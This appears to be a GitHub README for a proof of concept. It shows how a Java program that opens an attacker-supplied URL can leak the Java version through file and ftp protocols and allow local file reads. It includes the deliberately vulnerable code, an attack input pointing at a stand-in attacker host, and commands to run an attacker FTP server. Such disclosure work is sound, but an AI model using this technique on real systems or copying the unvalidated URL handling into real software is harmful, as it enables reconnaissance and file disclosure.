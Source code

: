 # java-file-ftp
POC for leaking java version through file and ftp protocols

Consider a java web application using URL class to make a connection as below


```java
import java.net.*;
import java.io.*;
public class Main
{
      public static void main(String[] args) throws Exception{

            URL url = new URL(attackerinput);
            System.out.println(url.getProtocol());


            StringBuilder stringBuilder = new StringBuilder();

            DataInputStream dis = new DataInputStream(url.openConnection().getInputStream());
            String inputLine;

            while ((inputLine = dis.readLine()) != null) {
                System.out.println(inputLine);
            }
            dis.close();

        }
}

```

we can get an LFI using file protocol and also we can get the java version of the running application using file or ftp 

so our attackerinput will be ftp://attacker-ip:port/file or file://attacker-ip:port/file . 

Run the ftp server using ```sudo python3 ftp.py```
Compile java and run using ```javac FilePOC.java && java FilePOC```

Screenshot
![pocimage](https://github.com/samsbp/java-file-ftp/raw/main/pocimg.png)


